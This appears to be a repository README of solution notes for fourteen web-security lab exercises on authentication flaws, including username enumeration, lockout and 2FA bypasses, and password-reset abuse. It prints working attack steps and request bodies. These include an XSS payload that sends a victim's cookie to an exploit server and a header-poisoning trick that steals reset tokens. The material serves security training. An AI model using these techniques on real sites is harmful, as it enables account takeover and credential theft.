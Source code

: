 <div align='center'>

# **Authentication vulnerabilities**

</div>

## **SQL injection in different contexts**

### **Lab 1:** Username enumeration via different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username' when we enter wrong username, 'Invalid password' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. Solution script: [passLab1.py](./passLab1.py)

### **Lab 2:** Username enumeration via subtly different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username or password.' when we enter wrong username, 'Invalid username or password ' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. Solution script: [passLab2.py](./passLab2.py)

### **Lab 3:** Username enumeration via response timing

**Solution:** Use X-Forwarded-For header to bypass IP-brute-force protection. Notice that when we enter valid username, nothing happened. However, when we enter invalid username, the respond time is very long if we enter a very long password. Therefore, we can ultilize that fact to enumerate the username and then use the wordlist to get the password. Solution script: [passLab3.py](./passLab3.py)

### **Lab 4:** Broken brute-force protection, IP block

**Solution:** We see that if we loggin incorrectly 3 times in a row, the IP address is temporarily blocked. Therefore, we will login 2 times and then login with right credential (wiener:peter). Repeat this process until we get the right password. Solution script: [passLab4.py](./passLab4.py)

### **Lab 5:** Username enumeration via account lock

**Solution:** We see that if we loggin incorrectly with right account 5 times in a row, the account is temporarily blocked. Therefore, if we login as an invalid username, nothing is blockes. We can ultilize that fact to enumerate the username. When we get the username, use wordlist to find password. If the respond does not contain any error message, the password is right. Solution script: [passLab5.py](./passLab5.py)

### **Lab 6:** Broken brute-force protection, multiple credentials per request

**Solution:** In the post request to /login endpoint, change to request body to:
```javascript
{
    'username': 'carlos',
    'password': [
        (list of password)
    ]
}
```
Solution script: [passLab6.py](./passLab6.py)

## **Vulnerabilities in multi-factor authentication**

### **Lab 7:** 2FA simple bypass

**Solution:** Login as credential carlos:montoya and then change the endpoint to /my-account to access to the Carlos's account page

Solution script: [multiLab1.py](./multiLab1.py)

### **Lab 8:** 2FA broken logic

**Solution:** Send a GET request to the /login2 endpoint with cookies:
```javascript
{'verify': 'carlos'}
```
Then brute force for the mfa-code in the POST request to the /login2 endpoint with that same cookies. (mfa-code is between 0000 and 9999)

Solution script: [multiLab2.py](./multiLab2.py)

### **Lab 9:** 2FA bypass using a brute-force attack

**Solution:** We see that when enter the wrong code for second authentication twice, we will be logged out. Therefore, we will brute force for the code by attemp one time then login again. Repeat this process until we find the right code

Solution script: [multiLab3.py](./multiLab3.py)

## **Vulnerabilities in other authentication mechanisms**

### **Lab 10:** Brute-forcing a stay-logged-in cookie

**Solution:** For each password in the wordlist, caculate md5 hash of the password, we will call it md5(password). Then make a cookie:
```javascript
{'stay-logged-in': base64(carlos:md5(password))}
```
base64(string) is the base64 encoded of a string.

Solution script: [otherLab1.py](./otherLab1.py)

### **Lab 11:** Offline password cracking

**Solution:** The format of the cookie is the same as the one from Lab 10. We see that this website is vulnerable to XSS in the comment section

![XSS](./img/otherLab2.png)

Therefore, we use this payload to steal carlos's cookie

```javascript
<script>document.location="{}/"+document.cookie</script>.format(exploit_server)
```

When we go to the access log of the exploit server, we see a request came from carlos containing his cookie

![Cookie](./img/otherLab2-1.png)

Decode the cookie using Base64, we get:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

Using [Crack Station](https://crackstation.net/), we get the password `onceuponatime`

![Hash](./img/otherLab2-2.png) 

Solution script: [otherLab2.py](./otherLab2.py)

### **Lab 12:** Password reset broken logic

**Solution:** Make a POST request to endpoint '/forgot-password?temp-forgot-password-token=' with the request body 
```javascript
{
    'temp-forgot-password-token': '', 
    'username' : 'carlos', 
    'new-password-1': '123456', 
    'new-password-2': '123456'
}
```

This will change password of user carlos to 123456. Then login as user carlos with password 123456 to solve the lab

Solution script: [otherLab3.py](./otherLab3.py)

### **Lab 13:** Password reset poisoning via middleware

**Solution:** Make a POST request to the endpoint '/forgot-password' with header 
```
X-Forwarded-Host: (your exploit server)
```
and request body
```javascript
{'username': 'carlos'}
```
This will create the URL containing the exploit server's domain and carlos's reset token which will sent to carlos's email. When he click that URL, the request will be recorded in the access log.

![Log](./img/otherLab4.png)

When you have a token, go to endpoint '/forgot-password?temp-forgot-password-token=(carlos's token) to reset carlos's password

### **Lab 14:** Password brute-force via password change

**Solution:** Firstly, login as wiener. Then, use brute force with the wordlist to make a POST request to endpoint '/my-account/change-password' with the request body:
```javascript
{
    'username': 'carlos', 
    'current-password': password in the wordlist, 
    'new-password-1': '1', 
    'new-password-2': '2'
}
```
Note that the new-password-1 and new-password-2 has to be different

If the respond contain message 'New passwords do not match', that mean this is a password of the user carlos.

Solution script: [passResetLab.py](./passResetLab.py)